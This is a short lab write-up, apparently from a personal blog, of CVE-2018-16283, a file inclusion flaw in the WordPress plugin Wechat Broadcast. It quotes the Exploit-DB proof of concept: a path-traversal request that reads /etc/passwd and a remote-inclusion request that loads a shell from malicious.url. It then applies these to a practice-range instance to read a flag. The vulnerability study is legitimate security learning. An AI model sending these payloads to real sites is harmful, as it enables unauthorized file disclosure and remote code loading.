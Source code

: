 ```yaml
---
title: "CVE-2018-16283"
date: 2024-07-24
tags: ["春秋云镜","CVE","WordPress","LFI"]
draft: false
---
```



<https://www.exploit-db.com/exploits/45438>


## WordPress Plugin Wechat Broadcast 1.2.0 - Local File Inclusion

```http
# Exploit Title: WordPress Plugin Wechat Broadcast 1.2.0 - Local File Inclusion
# Author: Manuel Garcia Cardenas
# Date: 2018-09-19
# Software link: https://es.wordpress.org/plugins/wechat-broadcast/
# CVE: CVE-2018-16283

# Description
# This bug was found in the file: /wechat-broadcast/wechat/Image.php
# echo file_get_contents(isset($_GET["url"]) ? $_GET["url"] : '');
# The parameter "url" it is not sanitized allowing include local or remote files
# To exploit the vulnerability only is needed use the version 1.0 of the HTTP protocol 
# to interact with the application.

# PoC
# The following URL have been confirmed that is vulnerable to local and remote file inclusion.

GET /wordpress/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=../../../../../../../../../../etc/passwd

# Remote File Inclusion POC:

GET /wordpress/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=http://malicious.url/shell.txt
```

## 演示

环境: [春秋云镜 免费空间>CVE-2018-16283](https://yunjing.ichunqiu.com/cve/detail/899)

### 1.验证

![](https://static.guyu.pro/yunjing.ichunqiu.com/899/1.webp)

<http://eci-2ze8seqbpqn6bcpaq22a.cloudeci1.ichunqiu.com/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=../../../../../../../../../../etc/passwd>

![](https://static.guyu.pro/yunjing.ichunqiu.com/899/2.webp)

### 2.利用

<http://eci-2ze8seqbpqn6bcpaq22a.cloudeci1.ichunqiu.com/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=../../../../../../../../../../flag> 

![](https://static.guyu.pro/yunjing.ichunqiu.com/899/3.webp)

<http://eci-2ze8seqbpqn6bcpaq22a.cloudeci1.ichunqiu.com/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=file:///flag> 

![](https://static.guyu.pro/yunjing.ichunqiu.com/899/4.webp)
